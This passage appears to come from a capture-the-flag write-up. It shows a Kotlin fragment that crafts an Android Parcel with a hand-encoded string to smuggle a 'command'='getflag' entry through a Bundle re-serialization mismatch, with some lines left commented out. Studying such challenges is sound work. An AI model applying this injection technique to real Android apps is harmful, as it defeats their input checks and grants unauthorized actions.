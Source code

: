 ```kotlin
data.writeString("command")
data.writeInt(0)
data.writeString("\u0007\u0000command\u0000\u0000\u0000\u0007\u0000getflag\u0000")
//  val byteArrayLenPos = data.dataPosition()
//  data.writeInt(-0x1)
//  val byteArrayStartPos = data.dataPosition()

//  data.writeString("command");
//  data.writeInt(0)
//  data.writeString("getflag");

//  val byteArrayEndPos = data.dataPosition()
//  data.setDataPosition(byteArrayLenPos)
//  val byteArrayLen = byteArrayEndPos - byteArrayStartPos
//  data.writeInt(byteArrayLen/2)

//  data.setDataPosition(byteArrayEndPos)
val bundleEndPos = data.dataPosition()
data.setDataPosition(bundleLenPos)
val bundleLen: Int = bundleEndPos - bundleStartPos
data.writeInt(bundleLen)

data.setDataPosition(0)

var raw = data.marshall()

var bundle = Bundle()
bundle.readFromParcel(data)
var keyset = bundle.keySet()

val newPc = Parcel.obtain()
newPc.writeBundle(bundle)
newPc.setDataPosition(0)

raw = newPc.marshall()

var bundle2 = Bundle(javaClass.classLoader)
bundle2.readFromParcel(newPc)
keyset = bundle2.keySet()
return
```